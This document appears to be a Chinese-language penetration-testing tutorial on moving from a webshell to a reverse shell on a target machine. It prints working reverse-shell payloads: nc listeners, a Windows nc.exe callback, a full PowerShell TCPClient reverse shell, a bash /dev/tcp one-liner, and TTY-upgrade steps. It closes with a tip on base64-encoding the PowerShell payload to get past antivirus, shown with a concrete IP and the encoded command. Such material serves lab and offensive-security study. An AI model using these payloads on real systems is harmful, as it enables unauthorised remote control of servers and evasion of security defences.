

# 什么是webshell：

通过web漏洞，我们可以拿到网站的webshell，这是**ISW综合提权**的第一步

**Webshell** 简单来说，就是一个运行在网站服务器上的“后门脚本”。

把它想象成：黑客在别人的服务器里悄悄安装了一个**网页版的控制台**。通过访问这个特定的网址（网页），黑客就可以在浏览器里输入命令，来操作这台服务器，比如查看文件、下载数据、或者用这台服务器去攻击别人。

长类似下面这个样子




但是webshell有很多缺点，这就需要我们反弹一个shell获得完整的TTY

# 为什么必须从 WebShell 转换到反弹 Shell

## 交互性不好

**WebShell**：每发一条命令都是一个新的 HTTP 请求。如果程序运行到一半问你 `Are you sure? [y/n]`，由于请求已经结束，你没法再“回信”去输入那个 `y`。

- **反弹Shell**：建立的是 TCP 长连接。你可以实时输入、实时看到回显。

## 稳定性与超时问题

**WebShell**：Web 服务器（如 IIS/Apache）对每个脚本的运行时间都有严格限制（通常是 30-120 秒）。

**后果**：跑到一半，Web 服务器会觉得脚本运行太久了，强行杀掉进程。你的提权扫描结果会直接中断消失。

- **反弹Shell 的优势**：它是一个独立的系统进程，不受 Web 服务器超时限制。

## 隐蔽性与日志问题

**WebShell**：你敲的每一条命令都会在 Web 服务器的访问日志（Access Log）里留下记录。

- **反弹Shell 的优势**：连接建立后，后续所有的命令传输都是底层流，不会记录在 Web 访问日志里。
  
  
  
  

# 如何反弹shell到自己的攻击机：

1. Ubuntu 坐等接听 (监听)

```bash
nc -lvnp 4444 # 靶机是linux
rlwrap nc -lvnp 4444 # 靶机是windows
```

2. 控制靶机(反弹)
- **Windows (CMD，需要先上传 nc.exe)**:（注意：原生 CMD 是没有网络通信功能的，你必须先通过蚁剑或漏洞，传一个 Windows 版的 `nc.exe` 到靶机的可写目录（如 `C:\Windows\Temp\`））。 然后执行：
  
  ```bash
  C:\Windows\Temp\nc.exe 你的Ubuntu_IP 4444 -e cmd.exe
  ```
* **Windows (PowerShell)**:如果系统允许执行 PS，直接用这段命令：
  
  ```powershell
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('你的Ubuntu_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
  ```
- **Linux (Bash)**:
  
  ```bash
  bash -i >& /dev/tcp/你的Ubuntu_IP/4444 0>&1
  ```
  
  
  
  

# 如何让你的 Shell 变完美(TTY 交互式 Shell 升级)

一旦连接成功，你在 Ubuntu 的 `nc` 窗口里就会得到一个目标服务器的 Shell。但这个原始的 Shell 是一个“残疾”版本，我们必须对它进行“升级”。

## 为什么要升级成“完全交互式 Shell”

原始的 `nc` 反弹 Shell 存在非常致命的缺陷：

1. **不能使用快捷键中断进程**：如果你习惯性地按下 `Ctrl+C` 想停止当前正在跑的脚本，**它会直接把整个 Shell 连接掐断**，你得重新去打漏洞

2. **没有命令补全**：按 `Tab` 键只会出空格，无法补全长长的文件路径。

3. **没有历史记录**：按“上下方向键”不会显示上一条命令，只会输出乱码（如 `^[[A`）。

4. **无法运行交互程序**：跑不了 `vim`、`nano`，甚至连 `su` 切换用户输入密码都会卡死。不能用 `clear` 清屏。

## Linux 靶机升级：

为了解决上述所有痛点，当你拿到一个 Linux 的基础 Shell 时，请立刻形成肌肉记忆，连敲这五步：

```bash
# 1. 在 nc 得到的 Shell 里，打开一个完整的伪终端 (pty)
python3 -c 'import pty; pty.spawn("/bin/bash")'
# (此时提示符会变得更好看，比如转为 bash-4.4$)

# 2. 按 Ctrl+Z 把这个靶机进程“挂起”并放到后台
# (你会短暂回到自己 Ubuntu 的终端提示符)

# 3. 在你自己 Ubuntu 的终端里，关闭本地终端回显，并让终端处理远程的原始输入
stty raw -echo; fg

# 4. 接着按两次回车
# (此时你又回到了靶机的终端里)

# 5. 最后，配置终端环境变量，告诉靶机你的屏幕支持彩色和清屏指令
export TERM=xterm-256color
```

经过这五步，你那个简陋的 `nc` 窗口就变成了一个**功能完备、可以 Tab 补全路径、可以用 Vim 编辑文件、按 Ctrl+C 只会停止当前命令而不断开连接**的完美交互式 Shell 了

## Windows 靶机升级

**注意：上面的五步只对 Linux 靶机有效** Windows 没有 `/bin/bash` 也没有 `pty` 模块。

* 对付 Windows，最简单的方法是**在监听时使用 rlwrap**：在你的 Ubuntu 里安装 `sudo apt install rlwrap`，然后用 `rlwrap nc -lvnp 4444` 来监听。这样接回来的 Windows CMD 至少可以使用“上下左右键”来修改命令和查看历史记录，能极大地提升幸福感。
  
  
  
  

# 小tips：

1. 如果我们的命令被windows服务器杀软查到了，我们可以先base64编码一下命令再在powershell上自解密执行

```bash
s0m1ng@LAPTOP-EV3HBGTC:~$ python3 -c "import base64; cmd = \"\$client = New-Object System.Net.Sockets.TCPClient('10.243.120.200',4444);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2  = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()\"; print('\n[+] 请在蚁剑中执行以下命令绕过杀软：\n'); print('powershell -e ' + base64.b64encode(cmd.encode('utf-16le')).decode() + '\n')"


 #用下面的输出结果复制到powershell
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMgA0ADMALgAxADIAMAAuADIAMAAwACcALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACcAUABTACAAJwAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACcAPgAgACcAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```


2. 以什么权限反弹的shell，在Ubuntu上就是什么权限
